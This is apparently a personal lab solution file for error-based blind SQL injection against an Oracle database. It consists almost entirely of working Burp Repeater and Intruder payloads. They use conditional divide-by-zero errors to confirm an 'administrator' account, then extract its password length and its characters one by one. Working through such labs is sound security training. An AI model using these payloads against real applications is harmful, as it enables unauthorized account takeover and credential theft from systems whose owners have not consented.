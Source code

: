 #using burp repeater
#shows error
'+union+select+case+when+(1=1)+then+to_char(1/0)+else+null+end+from+dual--

#dont show error
'+union+select+case+when+(1=2)+then+to_char(1/0)+else+null+end+from+dual--

#check if there is a administrator username
'+union+select+case+when+(username='administrator')+then+to_char(1/0)+else+null+end+from+users--

#using burp intruder
#check the length of the password
'+union+select+case+when+(username='administrator'+AND+length(password)>§1§)+then+to_char(1/0)+else+null+end+from+users--

#check the characters of the password
'+union+select+case+when+(username='administrator'+AND+SUBSTR(password,1,1) > '§a§')+then+to_char(1/0)+else+null+end+from+users--

#login
